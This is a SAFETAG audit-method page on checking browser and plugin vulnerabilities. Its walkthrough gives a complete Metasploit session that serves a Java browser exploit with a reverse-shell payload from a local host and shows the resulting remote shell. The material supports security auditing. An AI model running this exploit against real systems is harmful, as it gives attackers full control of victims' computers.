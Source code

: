 ```yaml
---
Approach:
- Technical
Authors:
- SAFETAG
Org_size_under:
- 25
Remote_options:
- with-support
Skills_required:
- N/A
Time_required_minutes:
- 30
---
```


#### Check Browser and Plugin Vulnerabilities

##### Summary

Though modern browsers are better at self-updating, and the prevalence of powerful plugins like flash and java are slowly declining, it is valuable to ensure that the browsers in use have updated plugins and are themselves updated. 

##### Overview

##### Materials Needed

* Metasploit

##### Considerations

##### Walkthrough

###### Outdated Java browser plugins

While the threat described below is more severe if carried out by a local attacker (as they can more readily direct the victim to a malicious Web site), it also works remotely. In fact, if a user can be tricked, by a remote attacker, into clicking on a malicious email or Web link, attacks like this represent a significant perimeter threat. By compromising the victim’s machine, they can give the attacker a local point-of-presence without requiring the attacker to crack WPA keys or gain local access in some other way.

Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious Web site:

```
$ msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
+ -- --=[ 1114 exploits - 627 auxiliary - 178 post
+ -- --=[ 307 payloads - 30 encoders - 8 nops

msf > use exploit/multi/browser/java_jre17_exec

msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp
PAYLOAD => java/shell/reverse_tcp

msf exploit(java_jre17_exec) > set LHOST 192.168.1.123
LHOST => 192.168.1.123

msf exploit(java_jre17_exec) > set SRVPORT 8081
SRVPORT => 8081

msf exploit(java_jre17_exec) > set URIPATH java_test
URIPATH => java_test

msf exploit(java_jre17_exec) > run
[*] Exploit running as background job.
```

Step 2: At this point, any local user who visits http://192.168.1.123:8081/java_test, and who is running a sufficiently out-of-date version of the Java browser plugin, stands a good chance of giving the attacker full access to his computer:

```
[*] Started reverse handler on 192.168.1.123:4444

msf exploit(java_jre17_exec) >

[*] Using URL: http://0.0.0.0:8081/java_test
[*] Local IP: http://192.168.1.123:8081/java_test
[*] Server started.

msf exploit(java_jre17_exec) >

<remote shell>
```

Figure 1: Attacker in control of the victim’s computer through a remote command shell

##### Recommendation
